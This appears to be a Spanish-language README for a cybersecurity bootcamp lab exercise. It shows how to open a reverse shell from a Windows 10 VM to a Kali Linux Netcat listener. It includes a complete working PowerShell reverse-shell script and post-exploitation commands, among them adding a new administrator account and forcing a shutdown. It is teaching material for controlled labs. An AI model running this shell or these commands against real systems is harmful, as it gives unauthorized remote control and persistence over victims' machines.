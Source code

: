 <!-- hide -->
# Comandos CMD de Windows para Hacking Remoto

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/commands-for-remote-hacking/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![build by developers](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*Estas instrucciones estan [disponibles en español](https://github.com/breatheco-de/reverse-shell-and-remote-hacking/blob/main/README.es.md)*

### Antes de empezar...

> ¡Te necesitamos! Estos ejercicios se crean y mantienen en colaboración con personas como tú. Si encuentras algún error o falta de ortografía, contribuye y/o repórtalo.

<!-- endhide -->

<onlyfor saas="false" withBanner="false">

## 🌱 ¿Cómo empezar este proyecto?

Este ejercicio tiene como objetivo utilizar **comandos CMD de Windows** en el contexto de una conexión remota, simulando un ataque de **hacking remoto**. Este tutorial te ayudará a establecer una reverse shell desde una máquina Windows 10 hacia una máquina Kali Linux, ejecutando una serie de comandos para obtener información crítica del sistema Windows. Todo esto se hará en un entorno controlado, utilizando máquinas virtuales, y estará enfocado en la fase de **post-explotación** de un ataque ético.

### Requisitos

- **Máquina atacante (Kali Linux)**:
  - Software necesario: `Netcat` (preinstalado en Kali Linux)
  
- **Máquina objetivo (Windows 10)**:
  - Acceso a **PowerShell** y permisos de ejecución de scripts

> Ambas maquinas virtuales deben estar configuradas con la opción **adaptador en modo puente** para que puedan comunicarse a través de la red local.

</onlyfor>

## 📝 Instrucciones


1. Configuración de la Red. Verifica que ambas máquinas se puedan comunicar utilizando el comando `ping` en Kali hacia Windows y viceversa.

2. Establece la conexión con Netcat en la máquina Kali Linux (Atacante). Abre una terminal y escucha en un puerto específico (en este caso, el puerto 4444) utilizando **Netcat**:
     
```bash
nc -lvnp 4444
```
Esto establecerá un listener en la máquina Kali, esperando la conexión desde Windows.

3. Abre **PowerShell en la máquina Windows 10 (Objetivo)** y ejecuta el siguiente script para establecer la reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

  **Nota**: Recuerda reemplazar `"IP-de-Kali"` con la dirección IP de tu máquina Kali Linux.

![imagen](assets/powershell.png)

<!-- ### Ejecuta comandos remotamente -->

Con el script ejecutándose en Windows, ya puedes enviar comandos desde Kali a través de la sesión Netcat que has iniciado. Aquí tienes algunos comandos útiles para interactuar con la máquina Windows:

![imagen 1](assets/listening_dir.png)

### Comandos básicos de windows:

- **Listar archivos en el directorio actual**:
    ```bash
    dir
    ```
- **Obtener información del sistema**:
    ```bash
    systeminfo
    ```
![imagen 2](assets/systeminfo.png)

- **Obtener la configuración de red:**:
    ```bash
    ipconfig
    ```
![imagen 3](assets/ipconfig.png)

- **Listar procesos en ejecución**:
    ```bash
    tasklist
    ```
### Comandos para información detallada:

![imagen 4](assets/hostname.png)

- **Ver información del equipo**:
    ```bash
    hostname
    ```
- **Listar los usuarios en el sistema**:
    ```bash
    net user
    ```
    
- **Ver las conexiones de red activas:**:
    ```bash
    netstat -an
    ```
### Comandos para navegar por el sistema de archivos:

- **Cambiar de directorio:**:
    ```bash
    tasklist
    ```
- **Crear un archivo o directorio:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Comandos administrativos (si tienes privilegios):

- **Apagar o reiniciar el sistema:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Agregar un usuario administrador:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Investiga mas comandos para practicar.

### Cerrar la sesión
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)


<!-- hide -->

## Colaboradores

Gracias a estas personas maravillosas ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr),  contribution: (bug reports) 🐛

Este proyecto sigue la especificación [all-contributors](https://github.com/kentcdodds/all-contributors). ¡Todas las contribuciones son bienvenidas!

Este y otros ejercicios son usados para [aprender a programar](https://4geeksacademy.com/es/aprender-a-programar/aprender-a-programar-desde-cero) por parte de los alumnos de 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) realizado por [Alejandro Sánchez](https://twitter.com/alesanchezr) y muchos otros contribuyentes. Conoce más sobre nuestros [Cursos de Programación](https://4geeksacademy.com/es/curso-de-programacion-desde-cero?lang=es) para convertirte en [Full Stack Developer](https://4geeksacademy.com/es/coding-bootcamps/desarrollador-full-stack/?lang=es), o nuestro [Data Science Bootcamp](https://4geeksacademy.com/es/coding-bootcamps/curso-datascience-machine-learning).Tambien puedes adentrarte al mundo de ciberseguridad con nuestro [Bootcamp de ciberseguridad](https://4geeksacademy.com/es/coding-bootcamps/curso-ciberseguridad).

<!-- endhide -->
